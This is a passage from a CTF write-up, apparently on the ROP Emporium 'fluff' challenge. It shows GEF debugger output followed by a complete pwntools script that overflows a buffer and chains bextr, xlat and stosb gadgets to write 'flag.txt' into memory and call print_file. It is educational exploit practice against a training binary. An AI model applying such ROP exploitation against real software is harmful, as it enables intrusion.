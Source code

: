 ```
[#3] 0x4006a3 → __libc_csu_init()
[#4] 0x400510 → pwnme@plt()
[#5] 0x7ffc6a50100a → rex add BYTE PTR [rax], al
[#6] 0x7feda750d000 →  <_rtld_global+0> shl dl, 0x50
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  i r rax
rax            0x66                0x66
```

yeah! that's what we wanted now let's craft the full payload.
remember that everytime we get a character out, our `al` is gonna change so we 
have to calculate for the last string we wrote into the memory.  

```python
from pwn import *

pop_rdi = 0x4006a3
stos = 0x400639
xlat = 0x400628

# pop rdx, pop rcx, add rcx,0x3ef2, bextr rbx,rcx,rdx
bextr = 0x40062a
add_rcx = 0x3ef2

print_file = 0x400510
data_sec = 0x601028
padding = b"x" * 40

p = process("./fluff")
gdb.attach(p, """
           break *0x40062a
           break *0x400628
           break print_file
           """)

def writeToMem(addr, index, al = 0xb):
    return p64(bextr) + p64(0x4000) + p64(addr - add_rcx - al) + p64(xlat) + p64(pop_rdi) + p64(data_sec + index) + p64(stos)

flag_file = "flag.txt"
flagList = [0x004003c4, 0x00400239, 0x004003d6, 0x004003cf, 0x0040024e, 0x004003d5, 0x00400246 ,0x004003d5]

payload = padding + writeToMem(flagList[0], 0)

for i, char in enumerate(flag_file):
    # we already wrote the first character, and we only loop for the recently added character
    if i == len(flag_file) - 1:
        break

    payload += writeToMem(flagList[i + 1], i + 1, ord(char))

payload += p64(pop_rdi) + p64(data_sec) + p64(print_file)

p.sendline(payload)
p.interactive()
```

